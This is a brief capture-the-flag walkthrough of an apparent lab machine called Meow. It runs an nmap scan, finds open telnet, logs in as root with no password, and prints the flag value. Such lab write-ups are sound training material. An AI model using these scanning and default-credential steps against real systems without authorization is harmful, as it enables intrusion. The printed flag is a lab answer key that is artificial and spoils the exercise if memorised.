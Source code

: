 nmap -T4 -p- -A -Pn 10.129.195.187

23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

telnet 10.129.195.187

we get a login page asking for meow login and the password
login with just root as the username
no password needed

root@Meow:~# whoami
root

root@Meow:~# ls
flag.txt  snap

root@Meow:~# cat flag.txt 
b40abdfe23665f766f9c61ecba8a4c19

machine is rooted